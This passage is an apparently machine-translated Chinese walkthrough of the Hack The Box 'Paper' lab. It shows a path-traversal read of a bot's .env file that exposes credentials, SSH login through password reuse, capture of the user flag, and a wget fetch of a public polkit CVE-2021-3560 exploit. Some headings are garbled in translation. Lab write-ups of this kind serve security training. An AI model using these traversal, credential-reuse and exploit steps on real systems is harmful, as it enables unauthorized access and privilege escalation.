 我们可以使用命令文件而不是列表来查看文件的内容。这是。env 文件我们可以在文件夹中看到:

```
file sale/../../hubot/.env

<!=====Contents of file sale/../../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file sale/../../hubot/.env=====>
```

# SSH 访问

我们有一些凭证，发现 dwight 在 SSH 访问中重用了这些凭证:

```
┌──(root💀kali)-[~/htb/paper]
└─# ssh dwight@office.paper                  
dwight@office.paper's password: 
Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$
```

# 用户标志

在我们四处看看之前，让我们先看看用户标志:

```
[dwight@paper ~]$ cat user.txt 
dfb5f17e111d79a99eeaf8cca1f17188
```

# CVE-2021 年至 3560 年

看了一会儿之后，我发现这个盒子上的 root 路径很有趣。也许我错过了一个线索或没有遵循预期的路径，但我发现 CVE-2021–3560，这是另一个 polkit 利用工作。

polkit 的易受攻击版本在[该脚本](https://access.redhat.com/security/vulnerabilities/RHSB-2022-001)中列出。我们可以查看包装盒上的版本:

```
[dwight@paper ~]$ pkaction --version 
pkaction version 0.115
```

从 RedHat 列表中我们知道这是易受攻击的。我在 GitHub 上搜索，发现了[这个](https://github.com/Almorabea/Polkit-exploit)漏洞。切换到 Kali 并抓住它:

```
┌──(root💀kali)-[~/htb/paper]
└─# wget https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py
--2022-02-07 17:12:37--  https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.13...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2434 (2.4K) [text/plain]
Saving to: ‘CVE-2021-3560.py’
```